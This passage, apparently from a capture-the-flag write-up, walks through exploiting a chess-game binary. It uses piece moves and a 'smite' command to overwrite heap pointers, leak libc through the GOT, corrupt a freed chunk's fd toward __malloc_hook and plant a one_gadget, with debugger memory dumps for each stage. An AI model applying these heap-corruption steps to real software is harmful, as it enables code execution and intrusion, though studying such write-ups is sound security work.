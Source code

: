 Getting a libc leak was a bit more complicated. My idea was to overwrite one of the pointers in a pointer chunk with a resolved `GOT` address (as there was no PIE), thus `print`ing the board would leak a libc address. We could hope that the heap addresses would contain only letters and try `smite` directly to overwrite it to got, but I did this entirely with the `move` option, moving chess pieces to that pointer, guaranteeing that it would contain only letters, thus it could be `smite`d. I did this by moving the rook, king, and the second rook on the last row of a board (unfortunately there were no moves implemented for the queen) to the first pointer on the next pointer chunk. Also for this, we needed to make sure these moves could be made, so we needed to first clear out all the pawns, knights and bishops in the way, then move the rooks and king.

The following is how a sample pointer chunk looked after overwriting the first pointer with our two rooks and a king:

```
00:0000│   0xd8e490 ◂— 0x726b72 /* 'rkr' */
01:0008│   0xd8e498 —▸ 0xd8e4e9 ◂— 'PPPPPPPP'
02:0010│   0xd8e4a0 —▸ 0xd8e4f2 ◂— '........'
03:0018│   0xd8e4a8 —▸ 0xd8e4fb ◂— '........'
04:0020│   0xd8e4b0 —▸ 0xd8e504 ◂— '........'
05:0028│   0xd8e4b8 —▸ 0xd8e50d ◂— '........'
06:0030│   0xd8e4c0 —▸ 0xd8e516 ◂— 'pppppppp'
07:0038│   0xd8e4c8 —▸ 0xd8e51f ◂— 'rnbkqbnr'
```

Now we were guaranteed to have all the bytes be a letter, so `smite` was guaranteed to work on these bytes. We could use `smite` to overwrite the pointer to a `GOT` address byte-by-byte (you could manipulate the `mov_count` by just moving a bishop back and forth). Once this was done, we could `print` the board whose pointer we overwrote, to leak libc.

```
00:0000│   0xd8e490 —▸ 0x403f98 (_GLOBAL_OFFSET_TABLE_+24) —▸ 0x7fc273c6f850 (free)
01:0008│   0xd8e498 —▸ 0xd8e4e9 ◂— 'PPPPPPPP'
02:0010│   0xd8e4a0 —▸ 0xd8e4f2 ◂— '........'
03:0018│   0xd8e4a8 —▸ 0xd8e4fb ◂— '........'
04:0020│   0xd8e4b0 —▸ 0xd8e504 ◂— '........'
05:0028│   0xd8e4b8 —▸ 0xd8e50d ◂— '........'
06:0030│   0xd8e4c0 —▸ 0xd8e516 ◂— 'pppppppp'
07:0038│   0xd8e4c8 —▸ 0xd8e51f ◂— 'rnbkqbnr'
```

After this, the rest of the exploit was fairly straightforward. However there was a bit of a catch. The `pointer` chunks got allocated and freed first, and it was significantly easier to overwrite the `fd` of a board chunk. But if we overwrote the fd of a `board` chunk, the allocation we got would be that of a `pointer` chunk, which we had no control over. So we overwrote the size of a pointer chunk to `0xa1` (the normal size was 0x51) using `smite`, thus we could get a freed board chunk back on an even numbered allocation. Following this, the exploit was simple - overwriting a board chunk fd with malloc hook byte-by-byte (using `smite`), getting a board allocated there, then overwriting the first 8 bytes of that board with `one_gadget`. 

```
00:0000│   0x7fd97b5e9b70 (__malloc_hook) —▸ 0x7fd97b4e4c81 (execvpe+641)
01:0008│   0x7fd97b5e9b78 ◂— 0x2e2e2e2e2e2e2e00
02:0010│   0x7fd97b5e9b80 ◂— 0x2e2e2e2e2e2e002e /* '.' */
03:0018│   0x7fd97b5e9b88 ◂— 0x2e2e2e2e2e002e2e /* '..' */
04:0020│   0x7fd97b5e9b90 ◂— 0x2e2e2e2e002e2e2e /* '...' */
05:0028│   0x7fd97b5e9b98 ◂— 0x2e2e2e002e2e2e2e /* '....' */
06:0030│   0x7fd97b5e9ba0 ◂— 0x2e2e002e2e2e2e2e /* '.....' */
07:0038│   0x7fd97b5e9ba8 ◂— 0x72002e2e2e2e2e2e /* '......' */
08:0040│   0x7fd97b5e9bb0 ◂— 0x726e62716b626e /* 'nbkqbnr' */
```
